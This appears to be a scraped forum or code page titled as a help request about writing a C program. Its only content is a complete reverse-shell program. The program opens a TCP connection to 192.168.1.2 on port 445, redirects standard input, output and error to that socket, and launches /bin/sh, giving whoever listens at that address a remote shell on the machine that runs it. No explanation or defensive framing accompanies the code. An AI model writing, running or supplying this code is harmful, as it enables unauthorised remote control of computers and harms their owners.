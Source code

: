 # can-you-help-me-plz-i-have-some-issues-with-creating-my-programm-in-c
#include &lt;stdio.h> #include &lt;unistd.h> #include &lt;netinet/in.h> #include &lt;sys/types.h> #include &lt;sys/socket.h>  #define REMOTE_ADDR "192.168.1.2" #define REMOTE_PORT 445 int main(int argc, char *argv[]) {     struct sockaddr_in sa;     int s;      sa.sin_family = AF_INET;     sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);     sa.sin_port = htons(REMOTE_PORT);      s = socket(AF_INET, SOCK_STREAM, 0);     connect(s, (struct sockaddr *)&amp;sa, sizeof(sa));     dup2(s, 0);     dup2(s, 1);     dup2(s, 2);      execve("/bin/sh", 0, 0);     return 0; }
